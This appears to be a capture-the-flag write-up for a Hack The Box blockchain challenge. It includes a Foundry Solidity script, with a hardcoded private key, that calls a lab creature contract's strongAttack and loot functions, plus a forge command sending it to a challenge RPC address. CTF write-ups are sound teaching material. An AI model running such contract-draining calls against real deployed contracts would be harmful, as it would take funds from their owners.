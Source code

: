 ```yaml
---
slug: /write-up/htb/challenges/survival-of-the-fittest
pagination_next: null
pagination_prev: null
---
```


# Survival of the fittest

https://app.hackthebox.com/challenges/Survival%2520of%2520the%2520Fittest

Alex had always dreamed of becoming a warrior, but she wasn't particularly skilled. When the opportunity arose to join a group of seasoned warriors on a quest to a mysterious island filled with real-life monsters, she hesitated. But the thought of facing down fearsome beasts and emerging victorious was too tempting to resist, and she reluctantly agreed to join the group. As they made their way through the dense, overgrown forests of the island, Alex kept her senses sharp, always alert for the slightest sign of danger. But as she crept through the underbrush, sword drawn and ready, she was startled by a sudden movement ahead of her. She froze, heart pounding in her chest as she realized that she was face to face with her first monster.

This is very similar to `Distrack And Destroy` challenge. It's a blockchain challenge where you need to set the balance of the creature to zero to solve it.

The script is really simple, just define the interface or the creature, call the attack function and then loot:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";

interface ICreature {
    function strongAttack(uint256 _damage) external;
    function loot() external;
}

contract Exploit is Script {
    uint256 constant PRIVATE_KEY = 0x85326f106a23ac84cf6be593ed479aeeed9e0fadaaf9497fea203c406888eead;
    address constant PLAYER_ADDRESS = 0x5D612DA7e8aC61beB2457b53b5f438264E086a5d;
    address constant CREATURE_ADDRESS = 0x17D8DdE823914C2423c9997b40c226114e14EC53;
    address constant SETUP_ADDRESS = 0x98B20fE76986B32Eeb7c77D554Edb6f2a9978919;

    function run() external {
        // Start broadcasting from player's EOA private key
        vm.startBroadcast(PRIVATE_KEY);

        ICreature creature = ICreature(CREATURE_ADDRESS);

        // Step 1: Strong attack to remove all life points
        creature.strongAttack(20);

        // Step 2: Loot
        creature.loot();


        vm.stopBroadcast();
    }
}
```
And call it with `forge`:

```bash
forge script Exploit.s.sol:Exploit --rpc-url http://94.237.51.157:58017/rpc --broadcast
```

Then in the website in other blockchain challenge, when you click attack, the flag was revealed when the condition is met. However, this is not the case. Checking the source code, the button just does some css non-sense, nothing related with the flag.

However, there's a `flag` function defined. We just need to call it from the Brwoser developer console and that's it.